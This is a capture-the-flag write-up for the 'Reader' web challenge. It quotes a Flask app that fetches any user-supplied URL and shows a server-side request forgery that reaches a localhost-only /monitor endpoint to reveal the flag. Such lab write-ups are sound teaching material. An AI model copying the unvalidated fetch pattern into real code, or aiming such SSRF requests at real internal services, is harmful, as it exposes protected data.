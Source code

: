 # Reader

Web challenge, 180 solves

We are given the source (See `server`) folder of a flask application.

Looking at the webapp itself, we see this:

![](2024-05-19-18-39-43.png)

There were a few suspicious things in the source code that we can overlook, as our goal is to get the flag. Looking at the server code, we see this route:

```
@app.route("/monitor")
def monitor():
    if request.remote_addr in ("localhost", "127.0.0.1"):
        return render_template(
            "admin.html", message=flag, errors="".join(log) or "No recent errors"
        )
    else:
        return render_template("admin.html", message="Unauthorized access", errors="")
```

So looks like a request to `/monitor` from the server itself will net us the flag. How can we make the server make requests on our behalf?

Looking at the base route:

```
@app.route("/")
def index():
    global log, log_count
    site_to_visit = request.args.get("site") or ""
    url = urlparse(site_to_visit)
    if not site_to_visit:
        return render_template("index.html")
    else:
        parser = etree.HTMLParser()
        try:
            response = get(site_to_visit).text
            tree = etree.fromstring(response, parser).getroottree()
            content = get_text_repr(tree, url.scheme + "://" + url.netloc)
        except Exception as e:
            print(e)
            log_count += 1
            if log_count >= MAX_LOGS:
                log.pop(0)
                log_count = MAX_LOGS
            log.append(str(e))
            tree = etree.fromstring(
                "<body>failed to load page</body>", parser
            ).getroottree()
            content = get_text_repr(tree, "")

        return render_template("site_view.html", content=content)
```

and the import `from requests import get`, we see that our input is taken in, the server checks if it is a url, and if so a request is made and the page is displayed. The server is making this request, so if we request the monitor endpoint, we can get the flag.


Looking at the Dockerfile included in the source code, we can get the source port:

```
CMD ["gunicorn", "-b", "0.0.0.0:5000", "app:app", "-w", "4"]
```

Thus if we ask the server to request `http://localhost:5000/monitor`, we will get the contents of the monitor endpoint returned to us after it has been requested by the server.

With the request `https://reader.tjc.tf/?site=http://localhost:5000/monitor` we get the flag:

`tjctf{maybe_dont_make_random_server_side_requests_dd695b62}`